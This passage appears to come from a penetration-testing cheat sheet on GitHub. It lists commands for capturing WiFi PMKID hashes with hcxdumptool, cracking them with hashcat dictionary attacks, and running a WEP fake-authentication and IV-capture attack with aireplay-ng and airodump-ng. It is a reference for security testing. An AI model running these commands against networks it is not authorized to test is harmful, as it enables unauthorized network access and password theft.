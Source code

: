 \[Optional\] Install required tool on WiFi Pineapple:

```bash
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes:

```fundamental
hcxdumptool -i wlan0mon --enable_status=1 -o hcxdumptool_results.cap
```

Start capturing PMKID hashes for specified WiFi networks:

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool -i wlan0mon --filterlist_ap=filter.txt --filtermode=2 --enable_status=1 -o hcxdumptool_results.cap
```

Sometimes it can take hours to capture a PMKID hash.

Extract PMKID hashes from a PCAP file:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start a dictionary attack against PMKID hashes:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status --optimized-kernel-enable --outfile hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

### ARP Request Replay Attack

If target's WiFi network is not busy, it can take days to capture enough IVs to crack the WEP authentication.

Do a fake authentication to a specified WiFi network with non-existing MAC address and keep the connection alive:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --fakeauth 6000 -o 1 -q 10
```

If MAC address filtering is active, do a fake authentication to a specified WiFi network with an existing MAC address:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --fakeauth 0
```

To monitor the number of captured IVs, run `airodump-ng` against a specified WiFi network and watch the `#Data` column (try to capture around 100k IVs):

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```
